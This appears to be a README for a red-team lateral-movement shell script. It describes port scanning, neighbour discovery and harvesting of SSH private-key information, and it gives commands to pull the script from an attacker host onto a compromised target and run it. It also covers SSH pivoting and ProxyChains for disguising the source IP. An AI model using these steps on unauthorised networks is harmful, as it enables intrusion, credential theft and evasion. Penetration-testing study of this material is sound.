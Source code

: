 # Lateral Movement Phase

Lateral Movement is about the ability to move around the network. It is possible that the actual target cannot be reached from or on the initially compromised host. In this case, access must be gained to one or more remote systems. To do this, the network must be explored. Similar to Internal Reconnaissance, information is gathered here, but about the current network and surrounding systems.

This script serves as a tool for receiving some information that may be important for Lateral Movement.

## Features

- Get network neighbours (from arp table)
- Get reachable IP addresses
- Port scan of a given IP address
- Get SSH information about private keys and known hosts

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/lateral-movement/lateral-movement.sh
sh lateral-movement.sh -h
```
Local network:
```sh
# Host
sh lateral-movement.sh -w
# Target
curl -LJO <Host>:8000/
sh lateral-movement.sh -h
```

### Parameters

```
sh lateral-movement.sh -h

Usage: lateral-movement.sh [options]

Options:
-h               Show this help message
-p <IP address>  Do a port scan of the given IP address

-w               Serves a local web server for transferring files

Output:
-c               No colours. Without colours, the output can probably be read better
-q               Quiet. No banner and no advisory displayed
```

## Results

Results saved to files in current directory and printed to stdout.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Additional Information

### Pivoting and Proxychains

Pivoting can be described as a method or technique that allows an already compromised system (also called a "plant" or "foothold") to be used to move into other systems on the same network. This can be used to bypass restrictions on a network (a firewall, for example).

#### Pivoting with SSH

Local forwarding: make a port of the target locally reachable:
````sh
ssh -L <local port>:<remote host>:<remote port> [<jumphost>]
````
Remote forwarding: Make a local port externally accessible:
````sh
ssh -R <remote port>:<localhost>:<local port> [<jumphost>]
````
Dynamic forwarding: Make all ports of the target locally accessible as SOCKS proxy:
````sh
ssh -D <local port> <jump host>
````

#### ProxyChains

Proxychains is a tool that forces any TCP connection of any application through one or more proxy servers (for example SOCKS4/5 or HTTP(S) proxy).  
With proxychains and port forwarding, it is possible to forward a connection through device B to device C.

````sh
# syntax:
proxychains <application> <argument>

# example:
proxychains nmap -sS 10.0.2.16 -p 80
````
The nmap scan is routed through the proxy servers defined in the configuration file.

ProxyChains configuration file: /etc/proxychains.conf
````sh
# syntax:
<typ> <IP> <port> <user> <password>
# examples:
socks4 127.0.0.1 9000
socks5 192.168.89.45 4567 user pass
````

Thus it is possible to disguise the source IP, as the destination will only receive the IP of the last proxy as source.

